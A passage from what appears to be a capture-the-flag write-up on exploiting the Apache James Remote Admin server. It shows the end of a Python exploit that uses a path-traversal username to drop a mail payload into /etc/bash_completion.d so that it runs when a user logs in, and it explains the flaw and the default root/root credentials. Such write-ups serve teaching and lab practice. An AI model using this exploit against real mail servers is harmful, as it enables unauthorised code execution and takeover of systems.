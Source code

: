 ```text
    recv(s)
    # also try s.send("rcpt to: <../../../../../../../../etc/bash_completion.d@hostname>\r\n") if the recipient cannot be found
    s.send("rcpt to: <../../../../../../../../etc/bash_completion.d>\r\n")
    recv(s)
    s.send("data\r\n")
    recv(s)
    s.send("From: team@team.pl\r\n")
    s.send("\r\n")
    s.send("'\n")
    s.send(payload + "\n")
    s.send("\r\n.\r\n")
    recv(s)
    s.send("quit\r\n")
    recv(s)
    s.close()
    print "[+]Done! Payload will be executed once somebody logs in."
except:
    print "Connection failed."
```

After reviewing the script, I made a few notes:

1. This is an authenticated exploit, so we need credentials. The exploit uses the default credentials root/root that are probably shipped with the software. We’ll have to connect to the server to find out if these credentials are valid before we run this exploit.
2. When running the exploit we have to pass the IP address as an argument. The script by default connects to port 4555 which is good since our server is running on that port.
3. The script first creates a user with username “../../../../../../../../etc/bash\_completion.d” and password “exploit”. It then connects to the SMTP server and sends that user a payload. Right off the bat, this doesn’t make much sense, so we’ll have to research the vulnerability.

After a bit of research we find that the vulnerability is in the _adduser_ functionality. When a new user is added, the server creates a new subdirectory to store incoming and outgoing emails for that user. However, the username field is not properly validated. Therefore, when we’re creating a user with the username “../../../../../../../../etc/bash\_completion.d”, any mail that gets sent to that user will be stored in that directory path. Why is that dangerous? Long story short, anything under the directory /etc/bash\_completion.d is automatically loaded by Bash for all users! To learn more about bash completion scripts, refer to this [article](https://iridakos.com/programming/2018/03/01/bash-programmable-completion-tutorial).

Therefore, if we create a user with a username that leads to the /etc/bash\_completion.d directory, when we send an email to that user, our email gets saved in the bash\_completion.d directory and the content of our email is automatically loaded by Bash when any user logs into the machine. So if we include a reverse shell in the email, all we have to do is wait for a single user to log in and we have access to the machine!

Now that we’ve done our research, we’re ready to move on to the exploitation phase.

## Initial Foothold <a id="16ff"></a>

First, let’s test the root/root credentials on the James Remote Admin server.
